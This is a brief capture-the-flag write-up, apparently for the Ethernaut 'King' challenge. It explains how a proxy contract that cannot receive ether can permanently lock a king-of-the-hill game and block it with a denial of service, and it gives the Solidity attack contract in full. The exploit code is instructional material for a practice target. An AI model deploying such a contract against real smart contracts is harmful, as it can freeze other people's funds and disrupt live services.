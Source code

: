 # Requirements

- Your goal is to break the game.

# Attack explanation

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

We can break the game using an attack proxy smartcontract that claims the throne but can't receive money. In this way, we will make a DoS attack to the game and it will be stuck forever.

# Attack function

We could solve the challenge by just using the following attack proxy sc:

```
contract MaliciousContract {
  address payable public vulnerableScAddress;
  address public attacker;

  constructor(address _vulnerableScAddress) payable {
      vulnerableScAddress = payable(_vulnerableScAddress);
      attacker = msg.sender;
  }

  function attack() public payable {
      vulnerableScAddress.call{value: msg.value}("");
  }
}
```
